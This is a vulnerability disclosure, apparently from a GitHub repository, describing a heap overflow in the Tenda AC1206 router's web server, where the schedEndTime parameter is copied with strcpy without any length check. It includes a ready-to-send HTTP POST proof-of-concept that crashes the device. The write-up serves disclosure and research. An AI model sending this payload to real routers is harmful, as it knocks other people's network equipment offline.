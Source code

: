 Affect device: Tenda-AC1206 US_AC1206V1.0RTL_V15.03.06.23_multi_TD01(https://www.tenda.com.cn/download/detail-2766.html)

Vulnerability Type: Heap overflow

Impact:  Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/openSchedWifi` page which influences the lastest version of Tenda-AC1206 US_AC1206V1.0RTL_V15.03.06.23_multi_TD01 (https://www.tenda.com.cn/download/detail-2766.html)

The vulnerability exists in the file `/bin/httpd` , function **setSchedWifi**.

![1](img/5-1.png)

![2](img/5-2.png)

![3](img/4-3.png)

User control pointer parameter ***sched_end_time*** in web requesting; ***wlan_switch*** is an array on the
heap, and using `strcpy` to copy ***sched_end_time*** to ***wlan_switch*** without length limit will cause heap overflow.

# POC and repetition

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```python
POST /goform/openSchedWifi HTTP/1.1
Host: 192.168.23.133
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=byn5gk
Connection: close
Content-Length: 265

schedWifiEnable=0&schedEndTime=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

```

By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![1](img/5-3.png)

